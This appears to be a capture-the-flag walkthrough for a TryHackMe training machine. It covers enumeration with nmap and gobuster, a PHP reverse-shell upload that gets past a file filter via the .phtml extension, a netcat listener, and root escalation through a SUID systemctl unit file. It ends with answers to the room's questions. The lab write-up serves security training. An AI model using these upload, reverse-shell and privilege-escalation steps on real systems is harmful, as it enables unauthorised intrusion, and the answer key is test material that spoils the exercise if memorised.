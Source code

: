Hi!

Let's start!

1. To begin with, we must classically connect to a VPN using OpenVPN.
Go to your [profile](https://tryhackme.com/access), download the file to connect, go to "/Downloads" and create the new
terminal:

```$ openvpn <Name>.ovpn ```

2. After that, we open the quest no. 1 and launch the instance (Deploy).

3. After all this, we can slowly start. The first thing we do is scan the machine:

```$ nmap -sC -sV -T4 -A <IpAdress>```

4. Scanning show us  the [Apache server](https://en.wikipedia.org/wiki/Apache_HTTP_Server) is running on port "3333". So we type in your browser
Address: Ip: 3333 and we look at what's on it.

5. Now, due to the fact that searching manually for paths on the page can be very monotonous and ineffective, we will use [dirb](https://medium.com/tech-zoom/dirb-a-web-content-scanner-bc9cba624c86),
[dirbuster](https://ourcodeworld.com/articles/read/417/how-to-list-directories-and-files-of-a-website-using-dirbuster-in-kali-linux), [wfuzz](https://wfuzz.readthedocs.io/en/latest/user/basicusage.html), [gobuster](https://tools.kali.org/web-applications/gobuster). Depending on what is more convenient for you. I will use a gobuster:

```$ gobuster dir -u http://<ip>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt```

6. After a while we find the path "/internal", so we check to see what's there. (Ip: 3333 / internal). We can see that on the site
we can send files to the server. The first thing we check is what files can be sent. Mostly cases can be omitted.

7. Since I'm on the "Kali" system, I will use PHP shell. Copy reverse-shell to your working directory:

```$ cp /usr/share/webshells/php/php-reverse-shell.php .```

8. We now need to edit the file to our Ip and Port address. The Ip address is the address that appears after "ifconfig" is entered
next to "tun0" (your ip in VPN). The port set on the "hacker" 4444. ($ ip, $ port). And let's save the file.
(I used the "nano" editor, but you can use the editor that is more convenient for you, e.g. "vi")

9. To intercept reverse shell it would be nice to listen to the port we set up. We will use [NetCat](https://en.wikipedia.org/wiki/Netcat) for this:

```$ nc -nlvp 4444``` (<--port)

10. You can make copies of this file to different ".html" ".php" ".php1" ".php2" ".php5" ".phtml" paths. I checked
trying to upload files manually, but you can use for example "BurpSuite".

11. After checking, the server managed to send the file with the extension ".phtml". So we check where the file was uploaded to
to do this, add "/ uploads" to the path and see reverse file.

12. We click on the file on the server (in the browser) and in the terminal where we started netcat we see the connection and can start issuing commands.

13. Typing for example "id" "whoami" we can see our permissions.

14. At this point, we need to see what we are authorized to do when entering e.g. home:
```
$ cd /home
$ ls
$ cd bill
$ cat user.txt
```

15. The first "flag" for the user was displayed.

16. Now we are looking for SUID binaries. [SUID](https://en.wikipedia.org/wiki/Setuid) stands for the permissions of a given user to certain files:

```$ find / -user root -perm -4000 -print 2>/dev/null```

17. We now see a few files with the SUID flag set.

18. Now we need to make an attack called [Privilege Escalation](https://en.wikipedia.org/wiki/Privilege_escalation) to elevate our system privileges. By scanning
the SUID flag we found a file named [systemctl](https://www.freedesktop.org/software/systemd/man/systemctl.html).

Systemctl is a binary file that controls user interfaces and is responsible e.g. for services run during boot.
By default, systemctl will search files in "/ etc / system / systemd" in order to search and service units.

19. On this machine we cannot create new files in the paths belonging to root, but we can change the [variables environment](https://en.wikipedia.org/wiki/Environment_variable) in an already existing one, so we can do PrivEsc.

20. The first thing we do is create an environment variable:

```$ priv=$(mktemp).service```

Now we need to create a unit file and assign it to an environment variable:
```
$ echo '[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
[Install] 
WantedBy=multi-user.target' > $priv
```

( Don't be afraid to use enter until the end of '<- then you can continue typing on a new line. )

21. What we just did is create a service that will execute "Bash", then read the falge from root's root directory and save it to the file / flag in the "/ opt" directory.

22. Now we need to fire the unit file with "systemctl".

```$ /bin/systemctl link $priv

$ /bin/systemctl enable --now $priv
```

23. Now we can see the flag file in the directory "/opt".

```$ cat flag```

24. That's it. We just executed the command for the root user.

// Completing the headings

Task 2.

1) 6

2) 3.5.12

3) 400

4) DNS

5) Ubuntu

6) 3333

Task 3.

1) /internal/

Task 4.

1) .php

2) .phtml

3) bill

4) YOUR USER FLAG 

Task 5.

1) /bin/systemctl

2) YOUR ROOT FLAG 
